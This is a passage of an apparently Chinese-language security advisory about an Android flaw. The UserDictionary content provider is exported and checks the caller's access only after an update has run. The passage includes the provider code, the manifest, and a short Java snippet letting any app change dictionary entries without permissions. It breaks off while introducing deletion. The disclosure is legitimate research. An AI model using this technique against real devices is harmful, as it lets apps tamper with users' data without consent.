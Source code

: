 ```
+ (!TextUtils.isEmpty(where) ? " AND (" + where + ')' : ""), whereArgs);
         break;

      default:
         throw new IllegalArgumentException("Unknown URI " + uri);
   `}`

   // Only the enabled IMEs and spell checkers can access this provider.
   if (!canCallerAccessUserDictionary()) `{`
      return 0;
   `}`

   getContext().getContentResolver().notifyChange(uri, null);
   mBackupManager.dataChanged();
   return count;
`}`
```

此外，AndroidManifest.xml文件也仅针对存在显式输出的内容提供者提供额外的保护（例如内容过滤器和授权检查），而“个人字典”则不在此列：

```
&lt;manifest xmlns:android="http://schemas.android.com/apk/res/android"
       package="com.android.providers.userdictionary"
       android:sharedUserId="android.uid.shared"&gt;

   &lt;application android:process="android.process.acore"
       android:label="@string/app_label"
       android:allowClearUserData="false"
       android:backupAgent="DictionaryBackupAgent"
       android:killAfterRestore="false"
       android:usesCleartextTraffic="false"
       &gt;

       &lt;provider android:name="UserDictionaryProvider"
          android:authorities="user_dictionary"
          android:syncable="false"
          android:multiprocess="false"
          android:exported="true" /&gt;

   &lt;/application&gt;
&lt;/manifest&gt;
```

正因如此，攻击者就可以轻松借助任何恶意的应用程序来调用以下代码，从而在不请求任何权限的情况下更新用户个人字典中的内容：

```
ContentValues values = new ContentValues();
values.put(UserDictionary.Words.WORD, "IOActive");

getContentResolver().update(UserDictionary.Words.CONTENT_URI, values,
        null, null);
```

同样，删除个人字典中的任何内容（甚至是全部个人字典）也非常轻松：
